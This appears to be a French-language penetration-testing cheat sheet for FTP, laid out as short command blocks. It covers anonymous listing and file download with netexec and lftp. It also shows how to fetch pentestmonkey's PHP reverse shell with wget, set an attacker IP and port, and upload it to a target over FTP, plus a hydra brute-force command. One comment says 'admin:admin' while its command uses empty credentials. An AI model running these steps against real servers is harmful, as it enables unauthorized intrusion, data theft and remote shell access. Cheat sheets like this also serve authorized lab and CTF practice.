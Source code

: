 # **FTP Enumeration & Exploitation Checklist**

## 🔍 Enumération FTP
```bash
# Lister les fichiers en anonyme
nxc ftp $IP -u '' -p '' --ls

# Tester admin:admin
netexec ftp $IP -u '' -p '' --ls [DIRECTORY]
```

## 📂 Récupération de fichiers
```bash
# Télécharger un fichier spécifique
netexec ftp $IP -u '' -p '' --get [FILE]

# Télécharger un dossier complet
lftp -u $USER,$PASSWORD ftp://$IP
mirror -c dossier_a_telecharger
```

## 🚀 Reverse Shell via FTP
```bash
# Télécharger un reverse shell PHP
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

# Modifier l'IP et le port dans shell.php, puis se connecter en FTP
ftp $IP

# Envoyer le reverse shell
ftp> put shell.php
```

## 🔓 Bruteforce FTP
```bash
sudo hydra -L users.txt -P /wordlist -s 21 ftp://$IP
```